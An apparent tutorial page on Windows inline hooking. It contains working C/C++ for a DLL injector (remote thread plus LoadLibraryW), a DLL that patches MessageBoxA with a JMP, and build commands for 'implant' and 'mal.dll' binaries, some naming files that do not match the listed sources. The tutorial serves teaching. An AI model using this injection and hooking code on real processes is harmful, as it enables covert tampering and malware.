

<Callout type="info" title="Concept Overview">
Inline Patching (or Inline Hooking) involves modifying the first few bytes of a target function's assembly code with a jump (`JMP`) instruction to redirect execution to a custom function. Unlike IAT hooking, this intercepts the call regardless of how the function is invoked.
</Callout>



---

## Target Executable

<AccordionGroup>
  <Accordion title="hookme.c">
    ```c
    #include <windows.h>
    #include <stdio.h>
    #include <stdlib.h>
    #pragma comment(lib, "user32.lib")
    
    int main(){
    
    	printf("hookme.exe: Starting.\n");
    
    	MessageBoxA(NULL, "First message", "HOOKS", MB_OK);
    	MessageBoxA(NULL, "Second message", "HOOKS", MB_OK);
    	MessageBoxA(NULL, "Third message", "HOOKS", MB_OK);
    
    	printf("hookme.exe: Roger and out!\n");
    
        return 0;
    }
    ```
  </Accordion>
</AccordionGroup>

---

## Injector

<AccordionGroup>
  <Accordion title="injectDLL.cpp">
    ```cpp
    #include <windows.h>
    #include <tlhelp32.h>
    #include <iostream>
    #include <shlwapi.h>
    #pragma comment(lib, "shlwapi.lib") 
     
    DWORD EnumProc(const std::wstring& procName) {
    DWORD pid = 0;
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
     
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        std::wcerr << L"Error: Could not create process snapshot. Error Code: " << GetLastError() << std::endl;
        return 0; 
    }
     
    PROCESSENTRY32W pe32 = { 0 };
    pe32.dwSize = sizeof(PROCESSENTRY32W);
     
    if (!Process32FirstW(hSnapshot, &pe32)) {
        std::wcerr << L"Error: Process32First failed. Error Code: " << GetLastError() << std::endl;
        CloseHandle(hSnapshot);
        return 0;
    }
     
    do {
        if (lstrcmpiW(pe32.szExeFile, procName.c_str()) == 0) {
            pid = pe32.th32ProcessID;
            break;
         }
     } while (Process32NextW(hSnapshot, &pe32));
     
     CloseHandle(hSnapshot);
     return pid;
    }
     
    std::wstring GetFullPath(const std::wstring& dllName)
    {
       wchar_t modulePath[MAX_PATH];
       if (GetModuleFileNameW(NULL, modulePath, MAX_PATH) == 0)
       {
           std::wcerr << L"[-] Failed to get LibPath path." << std::endl;
           return L"";
       }
     
       PathRemoveFileSpecW(modulePath);
       
       wchar_t fullDllPath[MAX_PATH];
       if (PathCombineW(fullDllPath, modulePath, dllName.c_str()) == NULL)
       {
           std::wcerr << L"[-] Failed to combine path." << std::endl;
           return L"";
       }
     
       return std::wstring(fullDllPath);
    }
     
    int main(){
     
     std::wstring ProcName;
     std::wcout << "[+] Enter Your Process Name To Inject: ";
     std::wcin >> ProcName;
     ProcName += L".exe";
     
     auto PID = EnumProc(ProcName);
     if(!PID){
         std::wcout << "[-] Process Not Found";
         return 1;
     }
     std::cout << "[+] Thanks For Trusted us\n" << "[+] Target PID : " << PID << "\n";
     
     
     HANDLE HProc{OpenProcess(
     PROCESS_VM_READ
         |PROCESS_VM_WRITE
         |PROCESS_QUERY_INFORMATION
         |PROCESS_VM_OPERATION
         |PROCESS_CREATE_THREAD,0,PID)};
     
       if(!HProc){
         std::wcout << "[-] Faild To Get Handle\n";
         return 1;
       }
       
      
       const std::wstring DLLpth = GetFullPath(L"hookem.dll");
       if (DLLpth.empty()) {
           std::wcerr << L"[-] Could not determine full DLL path. Exiting." << std::endl;
           return 1; 
      }
      
      SIZE_T DLLsz{(DLLpth.length() + 1) * sizeof(wchar_t)}; 
    
      HMODULE Hkernel32 = GetModuleHandleW(L"kernel32.dll");
      if(!Hkernel32){
          std::wcerr << "[-] Fail To Load Kernel32\n";
          return 1;
      }
    
      auto LoadLib = reinterpret_cast<LPTHREAD_START_ROUTINE>(GetProcAddress(Hkernel32,"LoadLibraryW"));
      if(!LoadLib){
          std::wcerr << "[-] Fail To Get Method Address\n";
          FreeLibrary(Hkernel32);
          return 1;
      }
      
      LPVOID  exec{VirtualAllocEx(HProc,nullptr,
        DLLsz,
        MEM_COMMIT|MEM_RESERVE,
        PAGE_READWRITE)};
    
    if(!WriteProcessMemory(HProc,exec,DLLpth.c_str(),DLLsz,nullptr)){
        std::cout << "[-] Fail To writeProcess\n";
        return 0;
    }
    
    
    
    HANDLE tr1{CreateRemoteThread(HProc,nullptr,0,
     LoadLib,
     exec,0,nullptr)};
    
    if(!tr1){
        std::wcout << "[-] Faild To Create Remote Thread\n";
        return FALSE;
    }
    
    WaitForSingleObject(tr1,INFINITE);
    CloseHandle(tr1);
    VirtualFreeEx(HProc,exec,DLLsz,0);
    
      std::cout << "Dll Load Success fully";
      std::cin.get();
      return 0;
    }
    ```
  </Accordion>
</AccordionGroup>

### Compile Time (Injector)

<Tabs>
  <Tab title="CL Windows Compiler">
    ```batch
    @ECHO OFF
    cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /TcinjectDLL.cpp /link /OUT:injectDLL.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
    ```
  </Tab>
  <Tab title="Mingw Executable Compile">
    ```bash
    x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -lshlwapi  -DNDEBUG  -s -o tcimplant.exe
    ```
  </Tab>
</Tabs>

---

## Patcher DLL

<Callout type="danger" title="Patcher.c (Inline Hook DLL)">
This DLL saves the original bytes of `MessageBoxA`, overwrites the first 14 bytes with a `JMP [RIP+0]` instruction pointing to `HMessageBoxA`, and temporarily unhooks it to call the original function.
</Callout>

<AccordionGroup>
  <Accordion title="Patcher.c">
    ```c
    #include <stdio.h>
    #include <windows.h>
    #include <dbghelp.h>
     
    #pragma comment(lib, "user32.lib")
    #pragma comment (lib, "dbghelp.lib")
     
    #define ORIG_BYTES_SIZE 14
    char OriginalBytes[ORIG_BYTES_SIZE] = { 0 };
    
    // Original MessageboxA
    typedef INT (WINAPI * OrigMessageBox_t)(HWND hWnd,
     LPCTSTR lpText,
     LPCTSTR lpCaption, 
     UINT uType);
    OrigMessageBox_t OrigMessageBoxA = NULL;
     
    
    // Function Hooker
    BOOL Hookem(FARPROC hookingFunc);
    INT HMessageBoxA(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);
     
    
    BOOL WINAPI DllMain(HINSTANCE hinst, DWORD dwReason, LPVOID reserved) {
     
       switch (dwReason)  {
      	case DLL_PROCESS_ATTACH:
      		Hookem((FARPROC) HMessageBoxA);
      		break;
      		
      	case DLL_THREAD_ATTACH:
      		break;
      		
      	case DLL_THREAD_DETACH:
      		break;
      		
      	case DLL_PROCESS_DETACH:
      		break;
      }
      
       return TRUE;
    }
    
    
    INT HMessageBoxA(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType){
        SIZE_T bytesOut = 0;
      
        printf("Inline hook installed\n");
       
        // unhook 
        WriteProcessMemory(GetCurrentProcess(), 
        (LPVOID)OrigMessageBoxA, 
        OriginalBytes, ORIG_BYTES_SIZE, 
        &bytesOut);
        OrigMessageBoxA(hWnd, lpText, lpCaption, uType);
        //Hookem((FARPROC)HMessageBoxA); 
        
        return IDOK;
    }
    
    
    BOOL Hookem(FARPROC hookingFunc) {
     
        SIZE_T bytesIn = 0;
        SIZE_T bytesOut = 0;
        
        // save original address of MessageBoxA
        OrigMessageBoxA = 
        (OrigMessageBox_t) GetProcAddress(GetModuleHandle("user32.dll"),
        "MessageBoxA");
       
        // copy ORIG_BYTES_SIZE btes of original code from MessageBoxA
        ReadProcessMemory(GetCurrentProcess(),
        (LPCVOID)OrigMessageBoxA,
        OriginalBytes,
        ORIG_BYTES_SIZE,
        &bytesIn);
        //memcpy(OriginalBytes, reinterpret_cast<LPCVOID>(OrigMessageBoxA), ORIG_BYTES_SIZE);
        
        // src: https://www.ragestorm.net/blogs/?p=107
        // create a patch <14 bytes> with JMP [RIP+0]; <ADDR64>
        // \xFF\x25\x00\x00\x00\x00
        // \x00\x11\x22\x33\x44\0x55\x66\x77
        char patch[14] = { 0 };
        memcpy(patch, "\xFF\x25", 2);
        memcpy(patch + 6, &hookingFunc, 8);
        
        // patch the MessageBoxA
        WriteProcessMemory(GetCurrentProcess(),
        (LPVOID) OrigMessageBoxA, 
        patch, sizeof(patch), 
        &bytesOut);
        
        printf("HookedMessageBox @ %p ; OriginalBytes @ %p\n",
         HMessageBoxA,
         OriginalBytes);
        
        return FALSE;
    }
    ```
  </Accordion>
</AccordionGroup>

### Compile Time (DLL & Target)

<Tabs>
  <Tab title="CL Windows Compiler">
    ```batch
    @ECHO OFF
    cl.exe /nologo /W0 maldll.cpp /MT /link /DLL /OUT:mal.dll
    cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tp hookme.cpp /link /OUT:hookme.exe /SUBSYSTEM:CONSOLE
    del *.obj *.lib *.exp
    ```
  </Tab>
  <Tab title="Mingw DLL Compile">
    ```bash
    x86_64-w64-mingw32-g++ -shared -o implant.dll main.cpp -municode -ldbghelp
    ```
  </Tab>
</Tabs>

---

## General Compile Time Templates

<Tabs>
  <Tab title="Windows Build (cl.exe)">
    ```batch
    @ECHO OFF
    cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:WINDOWS /MACHINE:x64
    ```
  </Tab>

  <Tab title="MinGW Compiler With Console">
    ```bash
    x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -s -o tcimplant.exe
    ```
  </Tab>

  <Tab title="MinGW Compiler Without Console">
    ```bash
    x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -mwindows -s -o tcimplant.exe
    ```
  </Tab>

  <Tab title="MinGW Compiler For Debug">
    ```bash
    x86_64-w64-mingw32-g++ implant.cpp -g -O0 -Wall -o tcimplant.exe
    ```
  </Tab>

  <Tab title="MinGW Compiler Strong Security">
    ```bash
    x86_64-w64-mingw32-g++ implantc.cpp -O2 -D_FORTIFY_SOURCE=2 -fstack-protector-strong -fstack-clash-protection -Wl,--dynamicbase -Wl,--nxcompat -Wl,--high-entropy-va -Wall -Wextra -o secure.exe
    ```
  </Tab>

  <Tab title="MinGW Compiler Hard Reverse">
    ```bash
    x86_64-w64-mingw32-g++ main.cpp -O3 -flto -fstack-protector-strong -fstack-clash-protection -fPIE -pie -s -o hard.exe
    x86_64-w64-mingw32-strip --strip-all hard.exe
    ```
  </Tab>
</Tabs>
